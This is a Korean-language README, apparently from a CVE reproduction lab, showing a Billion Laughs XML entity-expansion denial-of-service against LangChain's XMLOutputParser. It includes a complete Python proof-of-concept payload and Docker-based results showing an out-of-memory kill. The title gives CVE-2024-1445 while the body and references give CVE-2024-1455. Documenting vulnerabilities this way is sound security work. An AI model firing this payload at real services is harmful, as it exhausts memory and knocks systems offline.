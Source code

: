 # Billion laughs Attack in LangChain (CVE-2024-1445)

영향을 받는 버전: langchain >=0,<0.1.14  
해당 취약점은 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.

## Description

**CVE-2024-1455**는 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.  
Billion Laughs Attack은 XML 파싱 프로세스를 악용한 XXE 취약점의 한 유형이다. 해당 공격은 XML 문서 내에 여러 계층의 엔티티를 중첩하여 XML 파서가 엔티티를 확인하고 확장하는 과정에서 과도한 CPU 및 메모리 리소스를 소모하게 만든다. 이러한 과도한 리소스 사용은 서비스 거부 공격(DoS)으로 이어져 영향을 받는 시스템의 가용성과 성능에 심각한 영향을 미친다.

---

## Environmental Construction

* 취약한 버전의 langchain과 해당 버전에 맞는 패키지를 찾아 `requirements.txt`를 구성한다.
* Langchain의 XMLOutputParser를 익스플로잇 할 수 있는 `poc.py` 작성한다.
* 이후 `Dockerfile`과 `docker-compose.yml` 파일 작성한다.

---

## Proof of Concept

```
docker compose up
```
* 해당 명령으로 `docker-compose.yml` 파일을 실행한다.
  
```
from langchain.output_parsers import XMLOutputParser


payload="""<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>"""

parser = XMLOutputParser()

parser.parse(payload)
```
* 이후 해당 `poc.py`가 실행된다.

---

## Output
* Successful Exploit:  
![image](https://github.com/user-attachments/assets/a16acad6-4456-4c93-a7bc-08b139f4db3f)
* 해당 이미지처럼 137 코드가 반환되면서 컨테이너가 종료되면 익스플로잇 성공.
* 137 코드는 Dokcer의 OOM(Out of Memory) 에러로 Billion Laughs Attack으로 인해 컨테이너의 메모리가 모두 소모되어 OOM 에러가 발생한다.
<br>

![after2](https://github.com/user-attachments/assets/a9a85804-2508-4f2b-99ee-26c0a7cbc1ac)
* 보다 자세한 결과 확인을 위해 `Dockfile`에서 `/bin/bash`를 실행하게 수정 후 `htop`으로 리소스 상태를 확인해본다.
* `poc.py` 실행 결과 CPU 사용량과 메모리 소비량이 급격히 늘어나는 것을 볼 수 있다.
<br>

![after3](https://github.com/user-attachments/assets/e54a2d39-152c-4a4a-8455-db201cf5386b)
* 메모리 과다 사용으로 인해 컨테이너에서 해당 프로세스를 SIGKILL로 종료한다.

---

## Reference
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-1455  
https://data.safetycli.com/vulnerabilities/CVE-2024-1455/66962/  
https://huntr.com/bounties/4353571f-c70d-4bfd-ac08-3a89cecb45b6
